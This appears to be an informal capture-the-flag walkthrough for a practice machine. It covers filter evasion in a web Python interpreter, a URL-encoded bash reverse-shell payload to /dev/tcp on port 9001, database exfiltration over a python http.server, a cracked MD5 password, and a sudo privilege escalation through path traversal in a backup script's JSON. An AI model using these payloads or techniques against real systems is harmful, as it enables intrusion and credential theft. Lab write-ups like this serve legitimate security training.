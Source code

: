 
![Code](https://github.com/user-attachments/assets/965bd010-eb39-4023-bf9d-caa94809d4ca)


found a  python gunicorn service runnning on 5000 port 

go on it , you find a python interpreter that filter some strings we could use to gain rce , informating about the technology , i came across , Ace 1.4.12 
	As it said , it has some vulns allows to do arbritary code execution

	from a specific internet forum , i got 
module%20%3d%20globals()%5b'o'%2b's'%5d%0acommand%20%3d%20getattr(module%2c%20'sy'%2b'stem')%0acommand('bash%20-c%20%22bash%20-i%20%3e%26%20%2fdev%2ftcp%2f[ip]%2f9001%200%3e%261%22')

so intercept the run button request in burp and replace the value of variable code by the payload given above , and seting up a nc listenner 
you got a user flag

enumerating using linpeas , i saw some app running and it's folder is dropped in the user we are directory 

	so you'll find a database file in /home/app-production/app/instance/database.db
	donwload it to your machine 

	on target machine: run in the folder were the database is : python3 -m http.server 
	#it will start a local python server on 8000 port by default 

	on your machine :	wget http://IP:PORT/database.db

Open it using sqlite databse browser , and view in the user's table ; you'll see users development and martin , 
	in /home folder is a user named martin , so take his pass hash and decode it 
	it md5 one 
		martin : nafeelswordsmaster


log using ssh now  martin@IP  ; pass the password , get connected 
 
			for root once you connected 
			sudol -l 

	privesc 
		cat > /home/martin/backups/task.json << EOF
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/"
  ]
}
EOF


so run now : sudo /usr/bin/backy.sh /home/martin/backups/task.json

go now onto /home/martin/backups/
	ls -la , you'll see backups files , download them , unzip them and enjoy the root flag 

	ls -l
	wget http://IP:PORT/code_var_.._root_2025_March.tar.bz2
	
	tar -xvjf code_home_martinbackups*.tar.bz2
	cat root/root.txt

